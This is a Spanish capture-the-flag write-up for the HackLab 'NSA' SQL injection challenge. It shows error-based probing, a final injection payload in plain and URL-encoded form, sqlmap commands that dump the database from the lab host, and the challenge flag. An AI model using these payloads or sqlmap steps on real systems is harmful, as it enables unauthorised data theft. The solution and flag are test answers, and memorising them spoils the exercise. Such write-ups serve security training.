





# Desafío 2 - NSA

**Plataforma:** HackLab (SoftwareSeguro)  
**Categoría:** SQL Injection  

## Análisis

Se identifica que el parámetro `type` en la URL se inserta directamente en la consulta SQL sin sanitizar. El motor es MySQL (confirmado por el mensaje de error al enviar `type=ABC`: `Unknown column 'ABC' in 'where clause'`).

La aplicación agrega una condición que excluye los registros "Top Secret", por lo que el objetivo es anular esa condición mediante inyección.

## Explotación

Se abre Burp Suite y se interceptan las peticiones GET. Se identifica el parámetro `type`.

Parámetros de prueba:

```
type=ABC
```
→ `Unknown column 'ABC' in 'where clause'` — el valor se inserta como identificador SQL.

```
type=3"
```
→ Error de sintaxis — confirma que el parámetro está dentro de una expresión con comillas.






Payload final (se deben enviar tanto la versión plain como la encoded):

**Plain:**
```sql
3 OR p.id_nivel = (SELECT id FROM niveles WHERE nombre='Top Secret') --
```

**Encoded** (lo que hay que pegar al lado de `type=`):
```
3%20OR%20p.id_nivel%20%3D%20(SELECT%20id%20FROM%20niveles%20WHERE%20nombre%3D%27Top%20Secret%27)%20--%20
```

> Si se envía solamente el encoded, la consulta puede dar error. Se debe incluir ambas representaciones según el contexto.

El `--` al final comenta el resto de la consulta que la aplicación agrega después del parámetro (ej. `AND p.activo = 1`), evitando errores de sintaxis.





### Solución 2 — sqlmap

```bash
# Listar todas las bases de datos
python sqlmap.py -u "https://chl-decfcb51-6464-4c00-a781-9713a1947e0f-nsa.softwareseguro.com.ar/backend/index.php?type=3" --dbs

# Listar tablas de la base de datos NSA
python sqlmap.py -u "https://chl-decfcb51-6464-4c00-a781-9713a1947e0f-nsa.softwareseguro.com.ar/backend/index.php?type=3" -D nsa --tables

# Extraer todos los datos de la tabla proyectos
python sqlmap.py -u "https://chl-decfcb51-6464-4c00-a781-9713a1947e0f-nsa.softwareseguro.com.ar/backend/index.php?type=3" -D nsa -T proyectos --dump
```






## Flag

```
141e9ea9d1c4ade203ffe3ee03ebff1c
```
